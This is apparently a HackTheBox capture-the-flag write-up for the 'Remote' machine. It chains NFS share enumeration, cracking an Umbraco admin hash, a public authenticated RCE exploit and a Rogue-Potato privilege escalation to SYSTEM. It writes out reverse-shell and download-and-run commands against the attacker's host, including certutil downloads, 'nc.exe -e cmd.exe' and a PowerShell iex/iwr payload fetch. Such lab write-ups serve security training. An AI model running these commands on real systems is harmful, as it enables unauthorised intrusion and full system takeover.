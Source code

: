 # Remote [HTB]()
![remote-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/remote-01.png)

## Recon

Let's start enumerating the target with:

```bash
nmap -p- --min-rate 10000 remote.htb
```

After we get the ports we can query the service verisons with:

```bash
nmap -p 21,80,111,135,139,445,2049,5985,47001 -sCV remote.htb -oN nmap.result # I Left out some RPC related ports 
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/nmap-res-02.png)

We have the following:

+ A Microsoft FTPd server on port 21.
+ An HTTP server on port 80.
+ An rpcbind endpoint on port 111.
+ An rpc endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ An SMB server on port 445.
+ A possible NFS share on port 2049.
+ Two HTTPAPI ports at 5985 & 47001.

Quite a large attack surface. It appears that the FTP server is allowing anonymous logins so let's start with that. Afterwards, we can take a look at the NFS share on port 2049, as the NFS protocol doenst have any authintication or authorization. Then we can take a look at the SMB and HTTP servers. 

## FTP Port 21

After connecting anonymously to the server I ran `ls` to list out the contents but it came out empty:

![ftp-empty-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/ftp-empty-03.png)

I then tried to download any possible files from the server using this one liner:

```bash
wget -m ftp://anonymous:anonymous@remote.htb
```

But this came out empty as well so i decided to move on to the NFS share. 

## NFS Port 2049 & 111.

If we list out the rpc info using `rpcinfo remote.htb`:

![rpcinfo-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/rpcinfo-04.png)

We can see that we have `nfs` listening on `0.0.0.0`, which means we have a network share out there. We can verify this with 

```bash
showmount -e remote.htb
``` 

![showmount-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/showmount-05.png)

We have `/site_backups` publicly avialbale to anyone. We can mount this on our local machine with:

```bash
mkdir /mnt/remote.htb
mount -o rw,vers=2 remote.htb:/site_backups /mnt/remote.htb
```

If we `cd` into this directory and run `ls` we can the following:

![dir-tree-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/dir-tree.png)

Looks like a backup directory tree of an IIS server. We also see the word `Umbraco` here as well. [Umbraco](https://en.wikipedia.org/wiki/Umbraco) is an open-source CMS platform built on Microsoft .NET framework and designed to work on IIS servers.  

I started by taking a look at `Web.Config`. On line 44 I found the version number:

![ver-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/ver-07.png)

I searched online and found an [RCE exploit](https://github.com/Jonoans/Umbraco-RCE) for this version, but we need to be authinticated to pull it off. So i decided to keep looking around the filesystem. 

I started to dig into every file, but I was rather lost, so I to search online for information about juicy Umbraco files. And that's where I found [this post](https://our.umbraco.com/forum/core/general/47400-How-does-Umbraco-store-its-data#:~:text=The%20content%20data%20is%20stored,file%20at%20%2FApp_Data%2Fumbraco.) that mentioned a database at `App_Data/Umbraco.sdf`. So I decided to look for ways to open this file.

I tried to use online sites to convert it to `csv` as well as different forms of databases like `MySQL` and `MariaDB` but nothing worked. I also tried `christianhelle`'s [sqlcequery](https://github.com/christianhelle/sqlcequery) tool to open sdf files but it didnt work either. 

So instead I ran `strings` on it to see what I can extract:

![strings-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/strings-08.png)

This looks important. I see two user accounts here, `admin` and `smith`, as well as two hashing algorithms, `SHA-1` and `HMAC-SHA256`. I decided to go for the admins password first. 

I cracked it with the following syntax:

```bash
hashcat -m 100 -a 0 "b8be16afba8c314ad33d812f22a04991b90e2aaa" rockyou.txt
```
![pass-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/pass-09.png)

The admin's password is `baconandcheese`. Lets try to log in. 


## HTTP Port 80.

At first I opend the site at `http://remote.htb` :

![site-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/site-10.png)

Ok, not much here. Let's run a directory scan with:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://remote.htb/FUZZ -e .cgi,.js,.txt,.xml,.aspx
```

![install-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/install-11.png)

This sounds interesting and it also gave us a redirect. Lets see where this leads:

![login-page-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/login-page-12.png)

It redirected us to `http://remote.htb/umbraco/#/login`. At first I tried authenticating with `admin : baconandcheese` but this failed. I tried different usernames until I found that `admin@htb.local` works:

![admin-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/admin-13.png)

This username was also mentioned later down in the `Umbraco.sdf` file. 

## Initial-Access Exploit

After reveiwing the [source code](https://github.com/Jonoans/Umbraco-RCE/blob/master/exploit.py#L76) of the exploit for a bit, it's seems ready to go. We just need to install the exploit with:

```bash
git clone https://github.com/Jonoans/Umbraco-RCE
cd Umbraco-RCE
pip install -r requirements.txt
chmod +x exploit.py
```

Then we can run the exploit with:

```bash
./exploit.py -u admin@htb.local -p baconandcheese -w http://remote.htb/ -i 10.10.14.39
```
Where: 

+ `-u` and `-p` are for the usrename and password values. 
+ `-w` is for the target url.
+ `i` is the loacl IP for the reverese shell. 


Which gives us initial access to the target:

![shell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/shell-14.png)

However this shell gave me lots of issues, it was quite unstable. So I hosted `nc.exe` on my Kali machine via a python web server, downloaded it to the target and connected back to my kali with:

```cmd
cd c:\\windows\temp
certutil -urlcache -f http://10.10.14.39/nc.exe nc.exe
.\nc.exe -e cmd.exe 10.10.14.39 443
```

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/shell-15.png)

## Privilege Escalation

After landing on the machine, I started hunting for quick wins. First, I looked at our user's privileges with:

```cmd
whoami /priv
```

![privs-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/priv-16.png)

Looks like we have the `Impersonate` privilege enabled which means we can try to pull off a potato attack. However if we take a look at the target OS we will see it is running a 2019 Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![os-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/os-17.png)

So `JuicyPotato` wont work here. Instead we can use [RoguePotato](https://github.com/antonioCoco/RoguePotato) which can be download [here](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe). 

Once we have Rogue-Potato on our Kali, we need to transfer it over to the target using a python server:

```bash
python3 -m http.server 80
```

Now we can download Rogue-Potato to the target with:

```cmd
certutil -urlcache -f http://10.10.14.39/RoguePotato.exe rp.exe
```

Next, we need to setup `socat` to run on port 135 on our Kali machine and redirect it back to `remote` on port 9999:

```bash
socat tcp-listen:135,reuseaddr,fork tcp:10.129.231.183:9999
```

Now we can execute `Rogue-Potato`. At first I tried executing `nc` to get a shell:

```cmd
.\rp.exe -r 10.10.14.39 -e "c:\\Windows\\Temp\nc.exe -e cmd.exe 10.10.14.39 9001" -l 9999
```

Rogue-Potato succesfully executed, but I didnt get a shell. So instead I decided to go for a different approach with nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script. Make sure to invoke the script at the end:

![invoke-17.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/invoke-17.5.png)

I hosted this file with a python server, and started my listener with:

```bash
rlwrap nc -lnvp 9001
```

Then, I executed Rogue-Potato once again with:

```cmd
.\rp.exe -r 10.10.14.39 -e "powershell -c iex( iwr http://10.10.14.39/shell.ps1 -UseBasicParsing)" -l 9999
```

This gave me a shell as the SYSTEM:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/root-18.png)
